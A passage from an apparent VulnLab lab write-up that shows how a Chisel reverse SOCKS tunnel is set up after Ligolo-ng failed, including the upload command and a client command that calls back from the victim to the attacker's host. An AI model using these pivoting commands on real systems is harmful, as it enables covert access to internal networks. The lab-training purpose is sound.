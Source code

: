 While trying to connect to the MySQL port after setting up Ligolo-ng, it would time out upon connection to the database. Further research within the VulnLab discovered that other people appeared to have this issue as well.

Since Ligolo was not working, Chisel was set up instead by first transferring the file over using the `upload` command from Penelope:

```bash
upload /home/zeus/Tools/Chisel/chisel
```

![](Build-Upload-Chisel.png)

The chisel server was then set up on the attacker machine, listening on port 9000:

```bash
./chisel server --port 9000 --reverse
```


![](Build-Chisel1.png)

With the server set up, the victim machine can connect back via the following. This opens a reverse port on the server (9050) and sets up a SOCKS5 proxy at that port:

```bash
./chisel client 10.8.4.237:9000 R:9050:socks
```

![](Build-Chisel2.png)

To use port 9050 as a socks5 proxy, modify the `/etc/proxychains4.conf` file and add the following line at the end to set the proxy to localhost port 9050:

![](Build-Chisel3.png)
